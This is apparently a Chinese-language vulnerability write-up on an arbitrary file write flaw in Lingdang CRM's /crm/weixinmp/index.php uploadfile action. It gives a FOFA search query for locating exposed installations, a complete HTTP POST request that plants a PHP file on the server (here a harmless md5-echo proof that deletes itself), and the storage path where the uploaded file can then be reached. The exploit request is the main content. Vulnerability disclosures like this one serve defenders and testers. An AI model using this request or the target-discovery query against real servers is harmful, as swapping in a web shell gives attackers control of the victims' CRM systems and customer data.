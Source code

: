 # 灵当crm uploadfile存在文件写入漏洞

# 一、漏洞简介
灵当CRM 是一款企业级客户关系管理软件。它旨在帮助企业管理客户信息、销售流程、市场营销活动和客户服务等。灵当crm存在任意文件写入漏洞，攻击者可以通过该漏洞写入恶意文件获取服务器权限。

# 二、影响版本
+ 灵当crm

# 三、资产测绘
+ fofa`body="[http://localhost:8088/crm/index.php"](http://localhost:8088/crm/index.php") && body="ldcrm.base.js"`
+ 特征

![1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a.png](./img/zbtgoiC2mvDmPJa-/1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a-405288.png)

# 四、漏洞复现
```plain
POST /crm/weixinmp/index.php?userid=123&module=Upload&usid=1&action=uploadfile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Ldwk: bG91ZG9uZ3dlbmt1
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

file_info={"name":"1.php"}&<?php echo(md5(233));unlink(__FILE__);?>
```

![1722999883677-c325fb74-5f58-4e4e-814f-8ea774b13e7f.png](./img/zbtgoiC2mvDmPJa-/1722999883677-c325fb74-5f58-4e4e-814f-8ea774b13e7f-699951.png)

```plain
/crm/storage/2024/August/week1/172299960228103.php
```

![1722999942783-ec8ba7e2-6600-4657-8fea-321871ee93a1.png](./img/zbtgoiC2mvDmPJa-/1722999942783-ec8ba7e2-6600-4657-8fea-321871ee93a1-443569.png)



> 更新: 2024-10-21 11:49:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/oaxy831ru4asisru>